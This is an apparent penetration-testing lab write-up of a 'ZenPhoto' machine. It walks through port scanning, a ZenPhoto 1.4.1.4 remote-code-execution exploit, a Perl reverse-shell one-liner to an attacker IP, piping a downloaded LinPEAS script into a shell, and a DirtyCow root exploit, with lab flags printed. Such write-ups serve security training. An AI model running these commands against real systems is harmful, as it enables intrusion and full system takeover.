


# ZenPhoto (rough notes)

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -T4 -p- zenphoto                                                            
...

PORT     STATE SERVICE
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
3306/tcp open  mysql
```

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -p 22,23,80,3306 -A zenphoto 
...

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 83:92:ab:f2:b7:6e:27:08:7b:a9:b8:72:32:8c:cc:29 (DSA)
|_  2048 65:77:fa:50:fd:4d:9e:f1:67:e5:cc:0c:c6:96:f2:3e (RSA)
23/tcp   open  ipp     CUPS 1.4
|_http-server-header: CUPS/1.4
|_http-title: 400 Bad Request
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.14 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp open  mysql?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Checking out the server on port 80:



Enumerating paths with `gobuster`:

```
┌──(kali㉿kali)-[~/zenphoto]
└─$ gobuster dir -u http://zenphoto -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://zenphoto
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 75]
/test                 (Status: 301) [Size: 303] [--> http://zenphoto/test/]
```

Checking out the `/test/` path:



The source code gives away "zenphoto version 1.4.1.4". We look that up on exploit-db:

```
┌──(kali㉿kali)-[~/kevin/HP-Power-Manager-Buffer-Overflow-Python3]
└─$ searchsploit zenphoto 1.4.1.4
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
ZenPhoto 1.4.1.4 - 'ajax_create_folder.php' Remote Code Execution   | php/webapps/18083.php
-------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Great, there's an RCE exploit available... let's try it:

```
┌──(kali㉿kali)-[~/zenphoto]
└─$ php 18083.php zenphoto /test/

+-----------------------------------------------------------+
| Zenphoto <= 1.4.1.4 Remote Code Execution Exploit by EgiX |
+-----------------------------------------------------------+

zenphoto-shell# whoami
www-data
```

We get a shell! We quickly find our first flag:

```
zenphoto-shell# ls -la /home
total 12
drwxr-xr-x  2 root     root     4096 Jul  9  2020 .
drwxr-xr-x 22 root     root     4096 Feb 17 06:26 ..
-rw-r--r--  1 www-data www-data   33 Mar  8 22:30 local.txt

zenphoto-shell# cat /home/local.txt
de025c85c2ce3f29f04f3e4fd66c3405
```

I run a few commands, looking for privilege escalation vectors but nothing simple stands out, so I choose to run LinPEAS.

Before we do that, I'll get myself a better shell...

```
zenphoto-shell# perl -e 'use Socket;$i="192.168.45.245";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Catching the reverse shell in Kali:

```
┌──(kali㉿kali)-[~/zenphoto]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [192.168.45.245] from (UNKNOWN) [192.168.234.41] 43690
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
```

This machine can't talk to the internet, so I had to download LinPEAS to my Kali machine and serve it over HTTP (and download it in the victim machine from there).


```
┌──(kali㉿kali)-[~]
└─$ wget -q -O linpeas.sh https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

┌──(kali㉿kali)-[~]
└─$ python -m http.server 443                                                                     
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
192.168.234.41 - - [08/Mar/2024 19:48:58] "GET /linpeas.sh HTTP/1.0" 200 -
```

```
$ wget -O- http://192.168.45.245:443/linpeas.sh | sh
--2024-03-09 03:49:01--  http://192.168.45.245:443/linpeas.sh
Connecting to 192.168.45.245:443... connected.
HTTP request sent, awaiting response... 200 OK

      (... linpeas output ...)
```

I spent some time on SUID binaries:

```
-rwsr-sr-x 1 daemon daemon 42K Jan 14  2011 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 18K Apr 19  2011 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
```
Had no luck...

I noticed the LinPEAS results also had A LOT of possible kernel exploits, with some of them showing as "highly probable":

```
[+] [CVE-2016-5195] dirtycow 2
   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable

[+] [CVE-2010-3904] rds
   Details: http://www.securityfocus.com/archive/1/514379
   Exposure: highly probable

[+] [CVE-2016-5195] dirtycow
   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: probable

[+] [CVE-2021-4034] PwnKit
   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable

[+] [CVE-2012-0056,CVE-2010-3849,CVE-2010-3850] full-nelson
   Details: http://vulnfactory.org/exploits/full-nelson.c
   Exposure: probable

[+] [CVE-2010-3848,CVE-2010-3850,CVE-2010-4073] half_nelson
   Details: https://www.exploit-db.com/exploits/17787/
   Exposure: probable

[+] [CVE-2010-3437] pktcdvd
   Details: https://www.exploit-db.com/exploits/15150/
   Exposure: probable

[+] [CVE-2010-3301] ptrace_kmod2
   Details: https://www.exploit-db.com/exploits/15023/
   Exposure: probable

[+] [CVE-2010-2959] can_bcm
   Details: https://www.exploit-db.com/exploits/14814/
   Exposure: probable
   
     (... 20+ more with "Exposure: less probable" ...)
```

Will try them one by one in order of the "Exposure"... first CVE-2016-5195 aka "dirtycow 2":

```
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,[ ubuntu=10.04{kernel:2.6.32-21-generic} ],ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

I modified the code as per the comments e.g. to target user `root` and not the default `firefart` (see [`40839-modified.c`](./exploit/40839-modified.c) vs the original [`40839.c`](./exploit/40839.c)).

Serving it over HTTP in Kali and downloading it + compiling and running it on the victim:

```
$ cd /tmp
$ wget -q -O 40839.c http://192.168.45.245:443/40839.c
$ gcc -pthread 40839.c -o dirtycow -lcrypt
$ chmod +x dirtycow
$ ./dirtycow
Please enter the new password: passpass
```

Not sure why but it just hung there for a while... I Ctrl+C and reconnected...

Upon reconnecting I was able to get root with the password I set earlier!

```
┌──(kali㉿kali)-[~/zenphoto]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [192.168.45.245] from (UNKNOWN) [192.168.234.41] 53757
/bin/sh: can't access tty; job control turned off
$ su root
su: must be run from a terminal
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@offsecsrv:/tmp$ su root
su root
Password: passpass

root@offsecsrv:/tmp# whoami
whoami
root
```

We quickly find our proof from there:

```
root@offsecsrv:/tmp# cd /root
cd /root
root@offsecsrv:~# cat proof.txt
cat proof.txt
924576cfe5fed7e7daeb89d4e0a13db2
```